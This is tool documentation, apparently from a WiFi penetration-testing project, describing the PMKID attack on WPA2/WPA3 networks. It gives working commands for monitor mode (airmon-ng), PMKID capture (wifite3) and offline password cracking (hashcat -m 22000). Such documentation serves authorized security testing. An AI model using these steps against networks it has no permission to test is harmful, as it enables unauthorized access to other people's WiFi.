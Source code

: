 # PMKID Attack Documentation

## Overview

The PMKID (Pairwise Master Key Identifier) attack is a modern WiFi penetration testing technique that allows for efficient password cracking of WPA2 and WPA3 networks. Unlike traditional handshake capture methods, PMKID attacks can capture authentication data from a single EAPOL frame, making them more efficient and less detectable.

## What is PMKID?

PMKID is a 16-byte identifier used in WPA2/WPA3 authentication that is derived from the Pre-Shared Key (PSK) or passphrase. It's included in the RSN (Robust Security Network) Information Element of EAPOL frames during the authentication process.

### Key Characteristics

- **Size**: 16 bytes (128 bits)
- **Format**: Hexadecimal string representation
- **Location**: RSN Information Element in EAPOL frames
- **Purpose**: Authentication and key management
- **Derivation**: Based on PSK, SSID, and other network parameters

## Attack Process

### Prerequisites

- **Network Interface**: Wireless adapter capable of monitor mode
- **Target Network**: WPA2 or WPA3 secured network
- **Tools**: wifite3, hashcat, or similar cracking tools
- **Permissions**: Root/administrator access for network interface control

### Step-by-Step Process

1. **Interface Setup**
   ```bash
   # Enable monitor mode on wireless interface
   sudo airmon-ng start wlan0
   ```

2. **PMKID Capture**
   ```bash
   # Capture PMKID using wifite3
   wifite3 --pmkid --duration 60 -i wlan0mon
   ```

3. **Hashcat Format Generation**
   ```
   WPA*01*<PMKID>*<BSSID>*<CLIENT_MAC>*<SSID>
   ```

4. **Offline Cracking**
   ```bash
   # Crack PMKID using hashcat
   hashcat -m 22000 pmkid_hashes.txt wordlist.txt
   ```
